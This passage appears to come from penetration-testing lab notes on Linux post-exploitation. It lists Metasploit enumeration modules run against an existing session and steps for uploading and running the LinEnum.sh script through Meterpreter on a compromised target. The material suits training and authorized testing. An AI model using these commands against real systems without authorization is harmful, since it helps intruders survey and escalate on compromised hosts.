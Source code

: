 ```bash
use post/linux/gather/enum_network
set SESSION 1
run
```

![Metasploit - post/linux/gather/enum_network](.gitbook/assets/image-20230427224527431.png)

- Enumerate **local system information**

```bash
use post/linux/gather/enum_system
set SESSION 1
run
```

![Metasploit - post/linux/gather/enum_system](.gitbook/assets/image-20230427224635959.png)

- Check if the target is a **VM or a container**

```bash
use post/linux/gather/checkvm
set SESSION 1
run
```

![Metasploit - post/linux/gather/checkvm](.gitbook/assets/image-20230427225015650.png)

### LinEnum

- Copy the content of the [LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) script and save it in the lab environment

- Back into the `Meterpreter` session, copy the **`LinEnum.sh`** file into the `/tmp` target directory 

```bash
session 1
cd /tmp
upload /root/Desktop/LinEnum.sh
shell
/bin/bash -i

id
	uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

- Run **`LinEnum.sh`** and output the results in a file

```bash
chmod +x LinEnum.sh
./LinEnum.sh

# Copy the output to a txt local file
```

![LinEnum](.gitbook/assets/image-20230427225836954.png)

------

